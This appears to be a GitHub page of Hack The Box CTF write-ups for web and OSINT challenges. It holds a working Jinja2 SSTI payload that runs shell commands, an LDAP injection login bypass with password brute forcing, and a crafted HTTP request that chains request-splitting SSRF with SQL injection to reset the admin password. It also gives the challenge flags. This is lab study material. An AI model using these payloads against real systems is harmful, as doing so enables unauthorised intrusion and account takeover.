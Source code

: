 # Challenges

- Added HTB cyber-apocalypse post-CTF analysis (check out `./cyberapocalypse`) 

## Web

### Emdee five for life 

[Emdee five for life](https://app.hackthebox.eu/challenges/Emdee-five-for-life)

Can you encrypt fast enough? Surely we need scripting here. A very simply python script capturing the webpage input, hashing the thing, and posting it back will give the flag. 

Flag: HTB{N1c3_ScrIpt1nG_B0i!}

### Templated

[Templated](https://app.hackthebox.eu/challenges/Templated)

Can you exploit this simple mistake? 

At first glance, one would think this supports a simple GET, so what's the big deal about this. After all, there are no apparent ways to send input to the server. The source code is simple two line HTML. However, if you look at `host/xyz`, you shall see the value displayed on the 404 page. A very simple misconfiguration, but deadly. Now on to craft a SSTI payload. SSTI can be confirmed through `http://..../{{3*3}}` and getting back a 9.

```s
{{ config.items() }}
{{ config.from_object('os') }}
{{"".__class__.__mro__[1].__subclasses__()[414].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
### Phonebook

[Phonebook](https://app.hackthebox.eu/challenges/Phonebook)

Who is lucky enough to be included in the phonebook?

So the actual page has a login system which did not work for SQLi. Viewing the source reveals certain HTML resources from a weird directory `964430b4cdd199af19b986eaf2193b21f32542d0` which when opened gives the search functionality. Reading the source code gives some jquery that seems like making a POST to `/search` and getting an access denied everytime.

```s
function search(form) {
      var searchObject = new Object();
      searchObject.term = $("#searchfield").val();
      $.ajax({
        type: "POST",
        url: "/search",
        data: JSON.stringify(searchObject),
        success: success,
        dataType: "json",
    });
    };
```
A simple asterisk (*) works as the username and password (typical LDAP injection) and leads to the same page as before. Now we have a session cookie attached which wasn't there before. So now POST to `/search` work perfectly and we get information back on `resse`. The search functionality with `term` is matching the presence of the value of the term in the mail. After a while, it is realised that this is not our usual json.stringify problem. It is rather an LDAP injection wherein the password can be bruteforced using normal [LDAP injection](https://www.netsparker.com/blog/web-security/ldap-injection-how-to-prevent/). Basically, a brute force attack on user `reese` and password `HTB{@*` where information is put into @ leads to recovery of the flag. Knowing that password of reese is the flag we are looking for is more of a challenge specific thing. Add LDAP to the list of things understood. In hindsight, the structure of the challenge: information of users being stored in a directory and offering search capability was a giveaway for LDAP services and trying to inject LDAP.

Flag: HTB{d1rectory_h4xx0r_is_k00l}

### Weather App

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free!

- Registration on `/register` is only working through localhost. This can be seen through `routes/index.js` which is giving a 401 for non-localhost sources, as well as in database.js wherein there's a comment `// TODO: add parameterization and roll public` which suggests the registration has not yet rolled public.

- `admin` password is randomly generated, and logging as admin on `login` shall give the flag.  

- This challenge comes with docker files, so set the system up on localhost and test it out.

- For the `POST /register` thing, we have the following `if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1')`. From this [link](https://stackoverflow.com/questions/31100703/stripping-ffff-prefix-from-request-connection-remoteaddress-nodejs), it is clear that we are stripping ::ffff: from the remote address. From the checks done on localhost, the defaults are IPv4. The way to bypass this be SSRF wherein we fool the server into believing the request for registration came from the server itself. This [link](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/) speaks of a security bug in unicode unwrapping in http.get() for node 8 or less, exactly the thing used in the application at `/api/weather`. Through a simple `console.log(http.get(url).output);` in HTTPHelper.js, monitoring of the request can be done.

- Observation made: HTTP control characters are URL encoded. 

```s
POST /api/weather HTTP/1.1
Host: ip:port
User-Agent: cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 462
Connection: close

endpoint=127.0.0.1:80&city=ĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊConnection:Ġkeep-aliveĊĊĊPOSTĠ/registerĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊContent-Type:Ġapplication/x-www-form-urlencodedĊUser-Agent:ĠMozilla/5.0Ġ(X11;ĠLinuxĠx86_64;Ġrv:85.0)ĠGecko/20100101ĠFirefox/85.0ĊConnection:Ġkeep-aliveĊContent-Length:Ġ110ĊĊusername=adminĦpassword=admin%27)%20ON%20CONFLICT(username)%20DO%20UPDATE%20SET%20password=%27pass%27%20--+-ĊĊGETĠ/?&country=register
```
**Some characters haven't been encoded properly**

Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}

## OSINT

The idea is to engage with data in publicy available domains to get a sense of the target in general.

### Easy Phish

[Easy Phish](https://app.hackthebox.eu/challenges/Easy-Phish)

```sh
Customers of secure-startup.com have been recieving some very convincing phishing emails, 
can you figure out why?
```
- The host is no longer accessible from public domain. This may mean it was moved or shut down.

- Internet archives, wayback machine has entries related ot his. It was indexed on Sept. 22, 2020 and has stuff like text/html and image/gif. Not that useful.

- `dnsrecon -d secure-startup.com` returns a TXT DNS record of the form

```s
TXT secure-startup.com v=spf1 a mx ?all - HTB{RIP_SPF_Always_2nd
```
A TXT resource record allows to match arbitrary text with a domain. The part within { is half the flag. From `v=spf1 a mx ?all`, this looks like a SFP (Sender policy framework) record, which is related to email authentication (the problem the challenge asks to solve in the first place).

- Using `dig secure-startup.com -t txt`

```s
;; ANSWER SECTION:
secure-startup.com.     445     IN      TXT     "v=spf1 a mx ?all - HTB{RIP_SPF_Always_2nd"
```
- The mails being recieved by the recipients are spoofs. Thereby, they may have failed the DMARC test. Thereby, it is essential to query those records too. Navigate to `mxtoolbox.com/` and query DMARC to see reporting and conformance of emails.

```s
v=DMARC1;p=none;_F1ddl3_2_DMARC}
```

Final flag: HTB{RIP_SPF_Always_2nd_F1ddl3_2_DMARC}

Better way

```s
dig TXT linuxincluded.com
dig TXT dkim._domainkey.linuxincluded.com
dig TXT _dmarc. linuxincluded.com
```
### Money Flowz

[Money Flowz](https://app.hackthebox.eu/challenges/Money-Flowz)


```sh
Frank Vitalik is a hustler, can you figure out where the money flows?
```
- Searching on the fellow, there comes a [twitter profile](https://twitter.com/frankvitalik). I am not sure if the person is the same that I am looking for. But the dates of the tweets are around the same time the challenge was released (10 months at the time of the writing). Then there's two reddit posts: [post1](https://www.reddit.com/user/frankvitalik/comments/goxkz7/whats_the_cleverest_scam_youve_seen_in_crypto/) and [post2](https://www.reddit.com/user/frankvitalik/comments/goxefp/incredible_scam_giveaway_you_can_get_free_coins/). This is exactly what I am looking for: this person is the HTB crypto enthusiast.

- Post 2 has a link for having free fake coins [Freecoinz](https://steemit.com/htb/@freecoinz/freecoinz)

```sh
Super Ethereum SCAM Giveaway
(?)Deposit 10X ETH to this address and get 20X ETH back!!(?)
0x1b3247Cd0A59ac8B37A922804D150556dB837699
you can get free coinz!
```
and a comment by the poster themselves:

```sh
Wow! I can't believe they are giving free coins into the ropsten net!
```
- Post 1 however takes one into the details of a crypto scam wherein someone leaked their private key in their address and honeypotted the users into trying to hack their ethereum. There's a bot watching the wallet, and as soon as Ethers come in, the bot takes them away.

Scammer [etherscan.io page](https://etherscan.io/address/0xb7605ddc0327406a7ac225b9de87865e22ac5927)

Details of the scam on [bitcoin forum](https://bitcointalk.org/index.php?topic=2237480.0)
